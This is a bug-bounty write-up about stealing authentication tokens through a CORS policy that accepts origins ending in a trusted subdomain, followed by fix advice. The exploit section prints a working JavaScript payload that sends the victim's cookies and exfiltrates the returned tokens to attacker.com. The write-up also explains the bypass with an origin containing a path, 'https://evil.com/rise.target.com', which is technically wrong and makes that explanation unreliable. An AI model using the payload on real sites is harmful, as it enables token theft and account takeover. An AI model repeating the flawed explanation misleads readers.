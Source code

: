 ```yaml
---
title: Auth Token Theft via CORS Misconfiguration
description: A critical CORS misconfiguration allowed stealing authentication tokens by abusing a wildcard-like origin match and `Access-Control-Allow-Credentials: true`.
date: 2025-03-08
tags:
  - cors
  - auth-token-theft
  - access-control
  - bug-bounty
  - web-security
---
```

# How a CORS Misconfiguration Could Have Let Me Steal Auth Tokens

In this post, I’ll walk you through a **CORS misconfiguration vulnerability** I discovered that allowed me to **steal authentication tokens**, **impersonate users**, and access sensitive data — all with a few lines of JavaScript. This bug stemmed from a subtle but dangerous CORS policy misconfiguration.

---

## 🧠 Background: What Is CORS?

**CORS (Cross-Origin Resource Sharing)** is a browser security feature that restricts how websites from one origin can interact with resources from another. If not configured properly, it can unintentionally expose APIs to malicious sites.

---

## 🚩 The Vulnerability

The API I tested had the following CORS behavior:

* It allowed any origin that **ended with** a trusted subdomain like `rise.target.com`
* It also responded with:

  ```
  Access-Control-Allow-Credentials: true
  Access-Control-Allow-Origin: https://evil.com/rise.target.com
  ```

That meant **any malicious domain** that crafted a similar subdomain (e.g., `https://evil.com/rise.target.com`) could **bypass origin checks** and access sensitive API responses.

---

## 🔬 Testing the Exploit

I hosted a malicious site at:

```
https://evil.com/rise.target.com
```

Then, I injected this simple payload:

```javascript
fetch("https://id.target.com/v1/session/rise/switch/", {
  method: "GET",
  credentials: "include" // Sends victim's cookies
})
.then(res => res.json())
.then(data => {
  // Exfiltrate session data to my server
  fetch("https://attacker.com/steal?data=" + encodeURIComponent(JSON.stringify(data)));
});
```

When a logged-in victim visited my page, their browser:

* Automatically sent their session cookie (`HERMES_ID`)
* The API accepted my domain (since it *looked* trusted)
* The response included **valid tokens and user metadata**
* The data was silently exfiltrated to my server

---

## 📸 Evidence

Here’s a look at what I received:

* ✅ Valid `access_token`
* 🧑‍💼 User profile information
* 🔐 Authenticated session context

![POC](/assets/writeups/2.png)

---

## 🛡️ Fix Recommendations

To fix this kind of issue, here’s what I recommended:

### 1. **Strict CORS Origin Checks**

Only allow exact origins:

```http
Access-Control-Allow-Origin: https://rise.target.com
```

Avoid dangerous patterns like:

```js
if (origin.endsWith('rise.target.com')) // ❌
```

### 2. **Secure Cookies with SameSite**

Use this to block cross-origin cookies:

```http
Set-Cookie: HERMES_ID=abc; Secure; HttpOnly; SameSite=Strict
```

### 3. **Avoid Allowing Credentials Loosely**

Only use:

```http
Access-Control-Allow-Credentials: true
```

...if you’re absolutely sure the origin is trusted.

---

## 🎯 Impact

This misconfiguration could allow:

* Complete **account takeover**
* Unauthorized **GraphQL or API access**
* Exploitation from **any malicious website** with a spoofed subdomain

---

## 🔚 Final Thoughts

CORS misconfigurations are subtle and often overlooked — but their impact can be critical. This vulnerability didn’t need a single line of backend code to be touched by the attacker. Just a cookie, a misconfigured header, and a clever origin were enough.

If you're building or reviewing APIs, **always test your CORS logic** under real attack scenarios. What seems safe on paper might leak tokens in practice.

---

💬 Have you seen similar CORS issues in the wild? Let's connect on [Twitter](https://twitter.com/00xmora), or [LinkedIn](https://linkedin.com/in/00xmora).

---